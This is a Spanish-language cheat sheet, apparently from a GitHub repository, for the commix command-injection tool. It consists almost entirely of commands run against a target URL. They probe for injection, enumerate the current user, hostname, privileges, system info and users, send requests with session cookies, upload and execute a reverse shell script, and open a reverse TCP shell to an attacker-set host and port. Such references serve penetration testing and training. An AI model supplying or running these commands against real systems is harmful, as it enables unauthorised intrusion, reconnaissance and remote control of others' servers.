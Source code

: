 # Commix Cheat Sheet

#### Revisar si es vulnerable a inyección de comandos un sitio web
```
commix -u <URL>
```

#### Leer un request y revisar si es vulnerable a inyección de comandos
```
commix -r <REQUEST-FILE>
```

#### Obtener toda la información básica del objetivo
```
commix -u <URL> --all
```

#### Conocer el usuario actual del objetivo
```
commix -u <URL> --current-user
```

#### Conocer el nombre del Host del objetivo
```
commix -u <URL> --hostname
```

#### Saber si el usuario es root o no
```
commix -u <URL> --is-root
```

#### Conocer la información del sistema del objetivo
```
commix -u <URL> --sys-info
```

#### Conocer todos los usuarios del sistema
```
commix -u <URL> --users
```

#### Saber si el usuario es admin o no
```
commix -u <URL> --is-admin
```

#### Enviar la petición por POST y usando una cookie
```
commix -u <URL> --cookie="<COOKIE>" --data="ip=127.0.0.1&Submit=Submit"
```

#### Cargar una reverse shell y ejecutarla
```
commix -u <URL> --cookie="<COOKIE>" --data="ip=127.0.0.1&Submit=Submit" --file-write="/root/revshell.sh" --file-dest="/tmp/revshell.sh" --os-cmd="bash /tmp/revshell.sh"
```

#### Enviar un reverse shell estando dentro del equipo con commix
```
commix(os_shell)> reverse_tcp
commix(os_shell)> set lhost <IP-ADDRESS>
commix(os_shell)> set lport <PORT>
commix(os_shell)> 1
...
commix(os_shell)> 3
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)